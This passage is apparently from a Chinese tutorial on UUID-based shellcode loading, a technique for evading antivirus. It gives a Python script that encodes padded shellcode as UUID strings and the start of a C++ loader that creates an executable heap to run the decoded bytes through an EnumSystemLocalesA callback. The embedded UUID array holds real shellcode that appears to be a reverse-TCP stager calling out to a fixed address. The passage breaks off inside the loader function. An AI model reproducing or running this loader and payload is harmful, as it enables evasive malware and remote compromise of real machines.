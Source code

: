 ```python
if len(shellcode) % 16 != 0:
    shellcode += b'\x90' * (16 - len(shellcode) % 16)

# 每16字节为一组，遍历 shellcode
for i in range(0, len(shellcode), 16):
    chunk = shellcode[i:i + 16]
    # 为每组创建一个 UUID（GUID）
    uuid_chunk = uuid.UUID(bytes_le=chunk)
    uuid_list.append(str(uuid_chunk))

#输出uuid的c语言数组形式
uuids = "const char* uuids[] = {"
for uuid in uuid_list:
    uuids = uuids + f"\"{uuid}\","
uuids = uuids[:-1] + "};"
print(uuids)
```



## uuid写入shellcode

以下代码的主要目的是通过UUID加载并执行shellcode。代码的关键步骤如下：

1. 定义一个包含转换为UUID形式的shellcode字符串数组`uuids`。
2. 创建一个具有执行权限的堆`hc`。
3. 在堆上分配一块可执行内存`buffer`。
4. 检查内存分配是否成功，如果失败则输出错误信息并返回。
5. 将UUID值转换回原始的shellcode并将其存储在`buffer_backup`地址。
6. 使用`EnumSystemLocalesA`函数调用转换回的shellcode。这是通过将shellcode作为处理每个枚举到的区域设置信息的回调函数的地址传递给`EnumSystemLocalesA`函数实现的。
7. 关闭内存句柄。

```cpp
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
#pragma comment(lib, "Rpcrt4.lib")
using namespace std;

//用于存放shellcode转的uuid的数组
const char* uuids[] = { "008fe8fc-0000-3160-d264-8b523089e58b","528b0c52-8b14-2872-0fb7-4a2631ff31c0","7c613cac-2c02-c120-cf0d-01c74975ef52","10528b57-428b-013c-d08b-407885c0744c","8b50d001-2058-488b-1801-d385c9743c31","348b49ff-018b-31d6-c0c1-cf0dac01c738","03f475e0-f87d-7d3b-2475-e0588b582401","0c8b66d3-8b4b-1c58-01d3-8b048b01d089","5b242444-615b-5a59-51ff-e0585f5a8b12","ffff80e9-5dff-3368-3200-00687773325f","774c6854-0726-e889-ffd0-b89001000029","685054c4-8029-006b-ffd5-6a0a68c0a82f","0002689b-5c11-e689-5050-505040504050","df0fea68-ffe0-97d5-6a10-56576899a574","85d5ff61-74c0-ff0a-4e08-75ece8670000","6a006a00-5604-6857-02d9-c85fffd583f8","8b367e00-6a36-6840-0010-0000566a0068","e553a458-d5ff-5393-6a00-5653576802d9","d5ff5fc8-f883-7d00-2858-68004000006a","0b685000-0f2f-ff30-d557-68756e4d61ff","ff5e5ed5-240c-850f-70ff-ffffe99bffff","29c301ff-75c6-c3c1-bbf0-b5a2566a0053","9090d5ff-9090-9090-9090-909090909090" };


int UuidLoader() {
    
    // 创建一个具有执行权限的堆
    HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);

    // 在堆上分配一块可执行内存
    void* buffer = HeapAlloc(hc, 0, 0x100000);

    // 检查内存分配是否成功，如果失败则输出错误信息并返回0
    if (buffer == NULL) {
        cout << "内存申请失败！" << endl;
        return 0;
```